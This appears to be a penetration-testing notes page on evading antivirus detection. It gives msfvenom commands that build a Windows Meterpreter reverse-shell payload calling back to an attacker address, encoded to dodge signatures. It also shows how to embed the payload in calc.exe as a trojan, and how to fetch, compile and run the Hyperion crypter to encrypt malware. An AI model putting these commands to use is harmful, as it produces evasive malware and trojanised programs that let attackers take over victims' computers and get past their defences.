 # Bypassing antivirus

So first of all, what is a antivirus program and how does it work?

## How does it work?

Antivirus normally uses blacklisting as their methodology. They have a huge database full of signatures for different known malware. Then the antivirus just scans the disk and search for any of those signatures.

## How do we bypass it?

So since there are many different antivirus and they all have different databases of signatures it is important for us to know what antivirus our target uses. Once we know that we can use virtustotal.com to upload our malicious files to see if that specific antivirus finds it.

So what we need to do is to change the malware enough so that the signature changes and the antivirus is not able to identify the file as malicious.

There are a few different techniques for doing this.

### Encoding

We can encode our malware in different ways. This can be done with msfvenom. Notice how we set the `-e` flag here, and then use the `shikata_ga_nai` encoding. This is not that effective since antivirus-vendors have access to metasploit as well.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

### Embed in non-malicious file

Another way is to embed our payload in a non-malicious file.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o
bad_calc.exe
```

### Encrypting the malware

In order to obfuscate our malware we can encrypt it, and thus radically changing the signature. One much mentioned tool for doing that is Hyperion. It is a windows binary but we can compile and run it from linux as well. This worked for me \(october 2016\)

```text
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
```

In Kali you have hyperion 1 included. However for it to work you have to give the full path to the executable you want to encrypt. So go to `/usr/share/veil-evasion/tools/hyperion`

And run it like this

```text
wine hyperion /path/to/file.exe encryptedfile.exe
```

